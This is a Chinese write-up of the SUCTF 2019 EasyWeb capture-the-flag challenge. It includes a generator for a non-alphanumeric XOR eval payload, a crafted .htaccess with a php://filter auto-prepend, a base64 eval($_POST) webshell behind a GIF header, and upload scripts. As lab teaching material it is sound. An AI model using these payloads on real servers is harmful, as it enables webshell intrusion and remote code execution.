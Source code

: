 # [SUCTF 2019]EasyWeb

## 知识点

`php代码审计`

`无字符RCE`

`.htaccess文件利用`

## 解题

题目直接给出了源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

很显然需要通过`无字符RCE`去调用上面的`get_the_flag`函数（长度限制导致也用不了其他的）。看到这个长度限制，可以考虑构造`$_GET[]();`的格式来调用，此处`[]`被过滤可以采用`{}`来替代也是一样的。

这里直接采用脚本生成`payload`，[参考文章](https://syunaht.com/p/745812677.html)

```python
import re
# Python中正则不需要在首位加//
preg = '[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+'
payload = "_GET"
istr = ''
jstr = ''
for char in payload:
    check = 0
    for i in range(128, 256):  #“Use of undefined constant” 视ascii码大于0x7f的字符为字符串，7.2后提出要废弃
        for j in range(128, 256):
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                if(i ^ j == ord(char)):
                    i = '%{:0>2}'.format(hex(i)[2:])
                    j = '%{:0>2}'.format(hex(j)[2:])
                    istr += i
                    jstr += j
                    check = 1
                    break
        if check == 1:
            break
# php经典特性，没加引号则视为字符串，所以可以不加引号减少字符数
# abc^def等价于(a^d).(b^e).(c^f),前者可以大幅减少字符数
print('${%s^%s}' % (istr, jstr))
```

```
?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=phpinfo
```

![](./img/[SUCTF2019]EasyWeb-1.png)

接下来就可以考虑`get_the_flag`函数的内容了，该函数主要是写入文件，但是有限制，既文件名不能包含`ph`文件内容也不能包含`<?`，这里可以采用`.htaccess`（`phpinfo`页面可以看出这是`apache`服务器），通过其`php_value auto_append_file`指定文件被`PHP`包含，通过`AddType application/x-httpd-php`指定文件被解析，此外这条配置是兼容`php`伪协议的，所以我们可以采用`php://filter`伪协议进行`base64`编码处理，这样就能绕过对`<?`的检测了。

> 至于`exif_imagetype`对问价内容检测可以通过添加文件头幻术来绕过，`.htaccess`中#作为注释，所以可以采用`XBM`文件的，而上传的`PHP`代码文件可以添加更为方便的`GIF`文件的。
>
> 因为有`exif_imagetype`进行文件头检测，一般是加`GIF89a`进行绕过，但在这里会导致`.htaccess`文件无法正常生效，所以在`.htaccess`文件中加上

`.htaccess`文件内容：

```
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg
```

`poc.jpg`文件内容（因为`base64`按`4`位一解码故文件幻数头补上2位）：

```undefined
GIF89aaa
PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

上传脚本`php`

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<!--题目链接-->
<form action="http://8d22cfbb-0ec0-42f4-b27f-de6d04423133.node4.buuoj.cn:81/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="file" id="postedFile"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传脚本`python`

```python
import requests
import time

url = r"http://0d14487e-ac86-4a60-811d-d64ddb5f5a9b.node5.buuoj.cn:81/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag"
session = requests.session()
htaccess_content = '''
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg'''
files_htaccess = {'file': (
    '.htaccess', htaccess_content, 'image/jpeg')}
res_hta = session.post(url, files=files_htaccess)
print(res_hta.text)
shell_file = 'GIF89aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+'
files_shell = {'file': (
    'poc.jpg', shell_file, 'image/jpeg')}
res_jpg = session.post(url, files=files_shell)

print(res_jpg.text)
```

![](./img/[SUCTF2019]EasyWeb-2.png)

`wp`说是要绕过`disable_functions`，但是`antsword`直接连接就能读取到`flag`

![](./img/[SUCTF2019]EasyWeb-3.png)

[参考文章1](https://www.cnblogs.com/Article-kelp/p/16097100.html)

[参考文章2](https://syunaht.com/p/745812677.html)